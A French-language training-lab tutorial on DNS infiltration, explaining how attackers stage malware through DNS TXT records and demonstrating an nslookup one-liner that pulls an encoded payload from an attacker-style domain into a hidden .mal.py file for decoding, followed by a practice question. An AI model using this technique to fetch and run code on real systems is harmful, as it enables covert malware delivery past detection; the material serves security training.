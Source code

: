 # Infiltration DNS 

### Infiltration DNS : Theorie

- L'infiltration DNS est une autre méthode utilisée par les attaquants pour exploiter les diverses vulnérabilités du système de noms de domaine d'une organisation. 

- Contrairement aux attaques d'exfiltration sur le DNS, l'infiltration définit le processus par lequel le code malveillant est exécuté pour manipuler les serveurs DNS soit à l'aide de systèmes automatisés où les attaquants se connectent à distance à l'infrastructure réseau, soit manuellement.

- L'infiltration DNS est principalement utilisée pour les efforts de suppression de fichiers ou de mise en scène de logiciels malveillants. 

- Avec des systèmes de détection des menaces basés sur le comportement, les signatures ou la réputation, il est possible que cette méthode d'attaque soit détectée.

- Cependant, si cette méthode de transport des données passe inaperçue, elle peut conduire à des activités malveillantes telles que l'exécution de code dans l'environnement de l'organisation. 

- Historiquement, cela a causé des ravages et des perturbations pour diverses entreprises bien connues.

- En résumé, le protocole DNS pourrait être utilisé comme un protocole secret qui pourrait faciliter les efforts de mise en scène et d'exécution des logiciels malveillants pour communiquer avec le ou les serveurs C2 (commande et contrôle) d'un attaquant. 

- Dans la tâche suivante, nous explorerons comment cela pourrait être réalisé.

### Infiltration DNS : Exemple

introduction

- Dans ce scénario, l'attaquant va infiltrer un morceau de code « malveillant » sur l'ordinateur de la victime. 
- Il existe de nombreuses techniques différentes que les attaquants dans le monde réel utilisent pour y parvenir. 
- Pour simplifier les choses, j'utiliserai un enregistrement TXT configuré sur mon serveur DNS AWS public. La valeur contenue dans cet enregistrement est un code 'malveillant' codé.

- Étant donné que les enregistrements TXT sont limités à 255 caractères, les pirates informatiques auront probablement plusieurs enregistrements TXT configurés pour leur serveur DNS. Cela dépend finalement de la longueur de leur code. 
- Maintenant que tout est configuré et prêt ; tout ce que le pirate informatique doit faire est de demander ces enregistrements TXT, de capturer la ou les valeurs, de les décoder et, les voilà maintenant infiltré leur propre code dans un système compromis via les enregistrements DNS TXT.

<img src="https://cdn.discordapp.com/attachments/798799811482353734/807297515518427197/infil.png"/>

Vous pouvez voir mon enregistrement TXT ci-dessous.

<img src="https://cdn.discordapp.com/attachments/807129623846584321/807138166867623956/1.PNG"/>


Fichiers utilisés pour cette démo

1. `nslookup`

Cela recherchera d'abord l'enregistrement TXT pour rt1.badbaddoma.in, puis obtiendra la valeur entre guillemets, et enfin, il enregistrera la valeur dans un fichier nommé '.mal.py'.

`nslookup -type=txt rt1.badbaddoma.in | grep Za | cut -d \" -f2 > .mal.py
`

2. `packetSimple.py` ( https://github.com/kleosdc/dns-exfil-infil )

Lorsque le code vous demande un 'Nom de fichier', entrez le nom de fichier '.mal.py'. C'est le fichier dans lequel nous avons enregistré la valeur encodée.

<img src="https://cdn.discordapp.com/attachments/807129623846584321/807140371967508500/2.PNG"/>


`python3 ~/packetySimple.py
`
`Filename: .mal.py
`
`[+] Reading from file...
`
`[+] Base58 decoded.
`
`[+] Base64 decoded.
`
`[+] Done, .mal.py is decoded.
`
### Infiltration DNS : Pratique

- Lisez le fichier TASK qui se trouve dans le dossier `~/challenges/infiltration/`.

- Vous pouvez utiliser la même commande que celle utilisée dans la partie Infiltration DNS - Exemple.
- Gardez à l'esprit que vous devrez ajuster la section « grep » et utiliser les caractères appropriés pour faire correspondre. Par exemple, si la valeur de texte de l'enregistrement TXT commence par « G6... », vous devrez utiliser « grep G6 ».

**Répondre aux questions ci-dessous**

Suivez les instructions du fichier TASK pour répondre à cette question.

Quelle est la sortie du fichier python exécuté
```
reponse
```
